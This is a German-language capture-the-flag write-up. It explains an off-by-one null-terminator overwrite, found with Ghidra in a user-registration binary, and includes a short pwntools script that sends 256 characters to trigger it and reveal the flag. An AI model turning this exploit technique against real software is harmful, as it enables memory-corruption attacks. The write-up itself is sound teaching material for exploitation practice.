





# Tag 01 Benutzerregistrierung



In dieser Challenge konnte durch einen Fehler beim Einlesen einer Variablen eine andere lokale Variable überschrieben werden. Wenn diese Variable den Wert 0 enthält, gibt das Programm die flag aus.

## Was geschieht bei der Ausführung des Programms?

Bei Ausführung des Programms wird ein Benutzername und ein Passwort abgefragt. Sind diese falsch, wird angegeben, dass kein Zugriff auf geschützte Informationen stattfinden kann.

Das Ziel ist also vermutlich, auf diese geschützten Informationen (also die Flag) zugreifen zu können.

```bash
└─$ ./main
/////////////////////////////////////////////////
// Willkommen zur neuen Benutzerregistrierung. //
// Trag Benutzernamen und Passwort ein, um auf //
// den geschützten Bereich zuzugreifen.        //
/////////////////////////////////////////////////

Dein Benutzername:
ich
Dein Passwort:
12345


Deine Benutzerdetails
=====================
Name:        ich                             
Passwort:    12345                                                                                                                                                                                                                                                           
Flag:        Kein Zugriff auf geschützte Informationen. Viel glück beim nächsten Mal. 
```

## Analyse mit ghidra

Zu Beginn des Programms wird die lokale Variable mit 1 initialisiert, danach wird sie nicht verändert.


Anschließend wird geprüft, ob die Variable 0 ist. Falls sie 0 ist, wird die flag ausgegeben.


Das Einlesen des Passworts ist auf 256 character-Zeichen begrenzt, hier kann also kein Buffer Overflow durchgeführt werden.


Die Variable "input_password" ist ebenfalls 256 Zeichen groß. Da C Strings null-terminiert (das bedeutet, dass das letzte Zeichen immer 00 ist), und sowohl die Anzahl der eingelesenen Zeichen als auch die Variable gleich groß sind, wird 00 in den nächsten Speicherbereich geschrieben.



Da die Variable "lokale_Variable_test" die nächste Variable ist, wird diese durch 00 überschrieben, solange alle möglichen 256 Zeichen des Passworts eingegeben werden.

## Python script

In diesem solve-Skript ist nun die Anzahl der Zeichen beim Einlesen des Passworts wichtig. Hier sende ich 256 Zeichen (hier "0"), damit die gesamte Variable "input_password" gefüllt wird.

Da C dies als String einliest (da der format specifier "s" ist), wird nach der Eingabe 00 in die Variable "lokale_Variable_test" geschrieben.

Die if-Abfrage, ob "lokale_Variable_test" `\0` ist, ergibt nun also true und die Flag wird ausgegeben.

```python
import pwn

p = pwn.process("./main_static")

p.recvuntil("Dein Benutzername:")
p.sendline("ich")
p.recvuntil("Dein Passwort:")
p.sendline("0"*256)
p.interactive()
```

Die flag lautet: `flag{0ff_by_0n3_1s_a_re4l_issu3!}`
